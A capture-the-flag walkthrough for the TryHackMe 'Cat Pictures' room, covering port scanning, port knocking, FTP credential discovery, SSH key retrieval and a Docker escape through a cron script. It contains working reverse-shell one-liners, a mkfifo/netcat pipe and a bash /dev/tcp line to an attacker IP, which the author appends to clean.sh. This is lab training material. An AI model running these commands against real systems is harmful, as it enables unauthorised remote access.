 ```yaml
---
description: https://tryhackme.com/room/catpictures
---
```


# Cat Pictures

## Nmap

```
sudo nmap 10.10.217.166 -p- -sS -sV

PORT     STATE    SERVICE      VERSION
21/tcp   filtered ftp
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
53/tcp   filtered domain
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
```

Interestingly `Nmap` shows that port 21 is filtered which we can take note of. Running netcat against port 4420 appears to show a login for a shell. Unfortunately I was unable to proceed attempting common passwords.

![](<../../../.gitbook/assets/image (1799).png>)

Over on port 8080 we have a landing page for phpBB forums.

![](<../../../.gitbook/assets/image (1797).png>)

From here I tried to register an account and was unsuccessful regarding an error regarding 'Invalid MX domain'.

Looking at the only thread created by the site admin we see a potential reference to port knocking.

![](<../../../.gitbook/assets/image (1798).png>)

We can perform port knocking as per the bash command below in order to use Nmap to 'knock' the ports in sequence. After completion scanning the ports on the target again should open one of them.

```bash
for i in 1111 2222 3333 4444;do nmap -Pn -p $i --host-timeout 201 --max-retries 0 <IP>; done
```

```bash
sudo nmap 10.10.217.166 -F  -sS    

PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   open     ssh
53/tcp   filtered domain
8080/tcp open     http-proxy
```

We can now connect to the FTP.

![](<../../../.gitbook/assets/image (1800).png>)

Reading the contents of note.txt we are given the internal shell password.

![](<../../../.gitbook/assets/image (1801).png>)

After entering the password over `netcat` to port 4420 we now appear to have access to the target system.

![](<../../../.gitbook/assets/image (1802).png>)

From here I checked the installed software under /bin/ and found `netcat` to be installed. As such I opted to get a more usable `netcat` reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <Port> >/tmp/f
```

![](<../../../.gitbook/assets/image (1803).png>)

From here checking home directory contents we see the user catlover has a file called runme in the home directory.

![](<../../../.gitbook/assets/image (1804).png>)

When running the file we are asked for a password to proceed. I tried the shell service password which was incorrect. From here I run cat on the file to view the contents and noticed the string 'rebecca' before the output asking for a password.

![](<../../../.gitbook/assets/image (1805).png>)

Entering rebecca password. we are then given the message '_Welcome, catlover! SSH key transfer queued!_'.

![](<../../../.gitbook/assets/image (1806).png>)

After a short while id\_rsa will appear in the users directory.

![](<../../../.gitbook/assets/image (1807).png>)

After transferring the contents of the id\_rsa to my attacking machine I then used the following `chmod` command to set the correct permissions.

```bash
chmod 600 cat_rsa
```

We are then able to `SSH` in as the known user on the target machine.

![](<../../../.gitbook/assets/image (1809).png>)

We appear to be root. However, checking the machine hostname of 7546fa2336d6and the existence of the .dockerenv file in '/' we are more than likely in a docker container.

![](<../../../.gitbook/assets/image (1810).png>)

From here I noticed a file in /opt/clean.sh. Viewing the contents this looks like it is removing the contents of the /tmp/ directory. I placed some files in the directory and waited. After a short while the files had been removed from the directory.

As a result I placed a bash reverse shell into clean.sh

```bash
echo '0<&196;exec 196<>/dev/tcp/10.11.39.30/4422; sh <&196 >&196 2>&196' >> clean.sh
```

![](<../../../.gitbook/assets/image (1811).png>)

Where we soon recieve a reverse shell as root outside the docker container.

![](<../../../.gitbook/assets/image (1812).png>)
